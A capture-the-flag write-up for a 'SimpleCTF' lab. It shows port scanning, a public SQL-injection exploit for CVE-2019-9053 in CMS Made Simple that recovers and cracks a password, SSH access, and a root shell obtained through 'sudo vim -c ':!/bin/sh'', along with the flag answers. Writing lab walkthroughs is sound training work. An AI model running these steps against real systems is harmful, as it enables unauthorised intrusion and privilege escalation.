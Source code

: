 # SimpleCTF

## #1 How many services are running under port 1000?
Save ip as a variable
```
export ip=<ip>
```

Run Nmap scan to scan the host for open ports
```
nmap $ip
21/tcp   closed ftp
80/tcp   closed http
2222/tcp closed EtherNetIP-1
```
2
## #2 What is running on the higher port?
```
nmap -p2222 -sV -sC $ip

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
SSH

## #3 What's the CVE you're using against the application?
CMS Made Simple version 2.2.8
CVE-2019-9053

## #4 To what kind of vulnerability is the application vulnerable?
SQLi

## #5 What's the password?
Search for exploit using searchsploit
```
searchsploit cms made simple
```

Copying the exploit file to folder
```
searchsploit -m php/webapps/46635.py
```

Using the exploit to get username and password
```
python 46635.py -u http://$ip/simple -c -w /opt/rockyou.txt
```
Result:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## #6 Where can you login with the details obtained?
Connect to SSH
```
ssh mitch@$ip -p 2222
```

## #7 What's the user flag?
G00d j0b, keep up!

## #8 Is there any other user in the home directory? What's its name?
Start with stabelising the shell
```
python -c "import pty; pty.spawn('/bin/bash')" 
```
ls the user folders
```
cd
cd ..
ls
mitch  sunbath
```

## #9 What can you leverage to spawn a privileged shell?
List out what we can do
```
sudo -l
```
We can use vim as root without using the password
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Get root by using vim.
```
sudo vim -c ':!/bin/sh'
```

Stabelice the shell after getting root
```
python -c "import pty; pty.spawn('/bin/bash')"
```

## #10 What's the root flag?
```
cat /root/root.txt
```
W3ll d0n3. You made it!
